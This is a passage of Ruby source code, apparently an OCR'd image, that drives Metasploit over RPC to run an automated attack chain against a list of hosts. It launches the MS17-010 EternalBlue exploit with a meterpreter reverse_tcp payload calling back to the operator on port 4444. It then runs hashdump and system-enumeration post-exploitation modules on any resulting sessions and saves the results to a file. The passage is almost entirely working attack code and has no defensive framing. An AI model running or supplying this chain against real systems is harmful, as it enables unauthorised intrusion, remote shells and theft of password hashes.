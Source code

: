 ```ruby
    'RHOSTS' => target
  })
  target_results["scans"]["smb_version"] = smb_result
  
  # Try EternalBlue if SMB is detected
  begin
    puts "[*] Attempting MS17-010 EternalBlue against #{target}..."
    client.call("module.use", "exploit", "windows/smb/ms17_010_eternalblue")
    eb_result = client.call("module.execute", "exploit", "windows/smb/ms17_010_eternalblue", {
      'RHOSTS' => target,
      'PAYLOAD' => 'windows/x64/meterpreter/reverse_tcp',
      'LHOST' => client.call("core.local_address"),
      'LPORT' => 4444
    })
    target_results["exploits"]["eternalblue"] = eb_result
    
    # Check for new sessions
    sleep 5
    sessions = client.call("session.list")
    
    # Run post-exploitation on new sessions
    sessions.each do |id, session|
      if session["target_host"] == target
        puts "[+] Running post-exploitation on session #{id} (#{target})"
        
        # Hashdump
        client.call("module.use", "post", "windows/gather/hashdump")
        hd_result = client.call("module.execute", "post", "windows/gather/hashdump", {
          'SESSION' => id
        })
        target_results["post"]["hashdump"] = hd_result
        
        # Get system info
        client.call("module.use", "post", "windows/gather/enum_system")
        si_result = client.call("module.execute", "post", "windows/gather/enum_system", {
          'SESSION' => id
        })
        target_results["post"]["system_info"] = si_result
      end
    end
  rescue => e
    puts "[-] Error exploiting #{target}: #{e.message}"
    target_results["exploits"]["eternalblue_error"] = e.message
  end
  
  return target_results
end

# Process all targets
puts "[*] Starting attack chain on #{targets.size} targets"
targets.each do |target|
  results[target] = attack_target(client, target)
end

# Save results
File.write(options[:output_file], JSON.pretty_generate(results))
puts "[+] Results saved to #{options[:output_file]}"
```
